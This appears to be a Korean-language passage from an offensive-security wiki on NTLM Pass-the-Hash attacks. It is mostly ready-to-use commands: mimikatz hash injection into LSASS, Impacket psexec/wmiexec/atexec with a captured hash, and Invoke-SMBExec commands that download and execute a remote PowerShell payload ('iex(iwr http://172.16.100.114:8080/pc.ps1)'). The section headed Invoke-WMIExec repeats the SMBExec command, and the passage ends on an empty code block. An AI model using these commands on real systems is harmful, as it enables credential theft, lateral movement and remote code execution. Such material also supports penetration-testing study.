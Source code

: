 **성공적인 인증 프로세스를 캡처한 pcap 파일이 있다면**, 이 가이드를 따라 도메인, 사용자 이름, 챌린지 및 응답을 얻고 비밀번호를 크랙해 보세요: [https://research.801labs.org/cracking-an-ntlmv2-hash/](https://www.801labs.org/research-portal/post/cracking-an-ntlmv2-hash/)

## Pass-the-Hash

**피해자의 해시를 얻으면**, 이를 사용하여 **가장할 수 있습니다**.\
**해시**를 사용하여 **NTLM 인증을 수행하는** **도구**를 사용해야 하며, **또는** 새로운 **세션 로그온**을 생성하고 **LSASS** 내부에 그 **해시**를 **주입**할 수 있습니다. 그러면 **NTLM 인증이 수행될 때** 그 **해시가 사용됩니다**. 마지막 옵션이 mimikatz가 하는 것입니다.

**컴퓨터 계정을 사용하여 Pass-the-Hash 공격을 수행할 수도 있다는 점을 기억하세요.**

### **Mimikatz**

**관리자로 실행해야 합니다**
```bash
Invoke-Mimikatz -Command '"sekurlsa::pth /user:username /domain:domain.tld /ntlm:NTLMhash /run:powershell.exe"'
```
이 프로세스는 mimikatz를 실행한 사용자에게 속하게 되지만, LSASS 내부의 저장된 자격 증명은 mimikatz 매개변수에 있는 것입니다. 그러면 해당 사용자처럼 네트워크 리소스에 접근할 수 있습니다(일반적인 `runas /netonly` 트릭과 유사하지만 평문 비밀번호를 알 필요는 없습니다).

### 리눅스에서 Pass-the-Hash

리눅스에서 Pass-the-Hash를 사용하여 Windows 머신에서 코드 실행을 얻을 수 있습니다.\
[**여기에서 방법을 배우세요.**](https://github.com/carlospolop/hacktricks/blob/master/windows/ntlm/broken-reference/README.md)

### Impacket Windows 컴파일 도구

[여기에서 Windows용 impacket 바이너리를 다운로드할 수 있습니다.](https://github.com/ropnop/impacket_static_binaries/releases/tag/0.9.21-dev-binaries)

- **psexec_windows.exe** `C:\AD\MyTools\psexec_windows.exe -hashes ":b38ff50264b74508085d82c69794a4d8" svcadmin@dcorp-mgmt.my.domain.local`
- **wmiexec.exe** `wmiexec_windows.exe -hashes ":b38ff50264b74508085d82c69794a4d8" svcadmin@dcorp-mgmt.dollarcorp.moneycorp.local`
- **atexec.exe** (이 경우 명령을 지정해야 하며, cmd.exe와 powershell.exe는 대화형 셸을 얻기 위해 유효하지 않습니다)`C:\AD\MyTools\atexec_windows.exe -hashes ":b38ff50264b74508085d82c69794a4d8" svcadmin@dcorp-mgmt.dollarcorp.moneycorp.local 'whoami'`
- 더 많은 Impacket 바이너리가 있습니다...

### Invoke-TheHash

여기에서 powershell 스크립트를 얻을 수 있습니다: [https://github.com/Kevin-Robertson/Invoke-TheHash](https://github.com/Kevin-Robertson/Invoke-TheHash)

#### Invoke-SMBExec
```bash
Invoke-SMBExec -Target dcorp-mgmt.my.domain.local -Domain my.domain.local -Username username -Hash b38ff50264b74508085d82c69794a4d8 -Command 'powershell -ep bypass -Command "iex(iwr http://172.16.100.114:8080/pc.ps1 -UseBasicParsing)"' -verbose
```
#### Invoke-WMIExec
```bash
Invoke-SMBExec -Target dcorp-mgmt.my.domain.local -Domain my.domain.local -Username username -Hash b38ff50264b74508085d82c69794a4d8 -Command 'powershell -ep bypass -Command "iex(iwr http://172.16.100.114:8080/pc.ps1 -UseBasicParsing)"' -verbose
```
#### Invoke-SMBClient
```bash
Invoke-SMBClient -Domain dollarcorp.moneycorp.local -Username svcadmin -Hash b38ff50264b74508085d82c69794a4d8 [-Action Recurse] -Source \\dcorp-mgmt.my.domain.local\C$\ -verbose
```
#### Invoke-SMBEnum
```bash
```